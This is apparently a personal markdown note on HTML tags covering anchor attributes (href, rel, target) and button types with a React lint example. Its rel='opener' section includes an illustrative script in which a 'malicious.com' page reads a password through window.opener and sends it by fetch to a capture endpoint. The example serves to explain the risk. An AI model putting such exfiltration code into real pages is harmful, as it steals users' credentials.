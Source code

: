 ```yaml
---
tags:
  - web
  - html
  - development
---
```

# HTML

[HTML (Hypertext Markup Language)](https://developer.mozilla.org/en-US/docs/Web/HTML) defines the content and basic underlying structure of any web page.

## Tags

### `<a>`

The `<a>` or anchor tag defines a hyperlink in a page.

#### `href`

`href` [stands for HyperText Reference](https://www.w3.org/Provider/ServerWriter.html).

#### `rel`

[`rel` defines a relationship](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/rel) between the anchor tag (or `<link>` or `<form>` or `<area>`) which it is on.

*Note: There is **no default** for `rel`, if it is omitted for `<a>` tags then there will be no defined relationship, but there will still be links created between the two.*

```html
<!-- This anchor's rel indicates it is a link to do with the author of the page. -->
<a rel="author" href="mailto:aaron@cute.engineer">Send me a message!</a>
```

##### `rel="opener"`

Until 2018 when [this issue was brought up](https://github.com/whatwg/html/issues/4078) and later in 2019 [when a fix was implemented across browsers](https://github.com/whatwg/html/pull/4330) this used to be the default behaviour for any link with `target="_blank"`.

This is worth knowing about, but won't come up very often. At all.

`rel="opener"` will set the `window.opener` attribute on the *new browsing context* to the `window` object of your current one.

This is almost *always* a bad idea.

Imagine old code which looks like this:
```html
<script>
	var passwordInput = document.getElementById("password");

	// Assume there's some code to keep this value up to date 😛
	var password = passwordInput.value;
</script>
<body>
	<form>
		<label for="password">Password:</label>
		<input type="password" id="password" />
		<input type="submit" />
	</form>

	<!-- This is the problem bit! -->
	<a rel="opener" href="malicious.com">Check out another website!</a>
</body>
```

Clicking through to *malicious.com* - even through [[CORS]], gives [[JavaScript]] on that page access to this pages' `window` object.

This becomes a *huge* issue when paired with the fact that the `var` keyword creates attributes on the `window`!

*malicious.com source:*
```html
<script>
	// It is literally this easy
	var password = window.opener.password;

	// Then we save it for later 😈
	fetch("https://malicious.com/capture", {
		method: "POST",
		body: JSON.stringify({ password }),
	});
</script>
<body>
	<h1>hahaha i took ur password, silly billy</h1>
</body>
```
#### `target`

Defines where to open the `href`, the values are relative to your current "*browsing context*" eg. current tab, window, or `<iframe>`.

- `_self` - Current context. **This is the default.**
- `_blank` - Historically a new window, but now usually means a new tab.

*Note: [`_blank` is not well liked](https://css-tricks.com/use-target_blank/). Don't use it unless you have a good reason.*

These targets exist, but are far less common, and are only relevant to pages rendered inside of nested `<iframe>`s:

- `_parent` - The parent browsing context. The next frame up.
- `_top` - The top-most ancestor browsing context. The top frame.

*Note: Both of these will default to `_self` if no ancestors exist.*

### `<button>`

```html
<!-- This button doesn't do anything on its own, but it is clickable! -->
<button type="button">Switch theme</button>
```

#### `type`

The `type` attribute defines the default behaviour of a `<button>`, and can have three possible values:
- `"submit"` - Attempt to submit a form associated with this button. **This is the default.**
- `"reset"` - Attempt to reset a form associated with this button (you will almost *never* need this).
- `"button"` - No default behaviour, let [[JavaScript]] handle the behaviour entirely.

There is an [[ESLint]] rule defined for this, [`react/button-has-type`](https://github.com/jsx-eslint/eslint-plugin-react/blob/master/docs/rules/button-has-type.md).

You'll only come across that rule when trying to plug `type` directly in from a prop:
```jsx
// This code is incorrect, and breaks react/button-has-type!
function Button({ type, children }) {
	return (
		<button type={type}>{children}</button>
	);
}
```

To fix it, ensure that `type` is only ever going to be a valid value:
```jsx
function Button({ isSubmitButton, children }) {
	return (
		<button type={isSubmitButton ? 'submit' : 'button'}>
			{children}
		</button>
	);
}
```